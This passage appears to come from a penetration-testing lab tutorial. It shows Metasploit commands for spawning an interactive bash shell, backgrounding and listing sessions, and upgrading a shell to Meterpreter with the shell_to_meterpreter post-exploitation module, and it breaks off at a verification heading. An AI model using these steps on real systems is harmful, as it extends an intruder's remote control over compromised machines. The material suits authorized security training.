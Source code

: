     ```bash
    cd /tmp
    ```

- Open an interactive Bash shell:

    ```bash
    /bin/bash -i
    ```

Background the shell session by pressing **CTRL + Z**.

### Managing Sessions

List all active sessions:

```bash
sessions
```

At this point, we have the command shell session running in the background.

### Upgrading the Shell to Meterpreter

Search for the **shell_to_meterpreter** post-exploitation module:

```bash
search shell_to_meterpreter
```

Use the **shell_to_meterpreter** module to upgrade the shell:

```bash
use post/multi/manage/shell_to_meterpreter
```

Show the available options for the module:

```bash
show options
```

Set the session ID of the current shell (assumed to be `1`):

```bash
set SESSION 1
```

Set the local host interface (replace `eth1` with your correct interface):

```bash
set LHOST eth1
```

Run the module to upgrade the shell:

```bash
run
```

### Verifying the Meterpreter Session
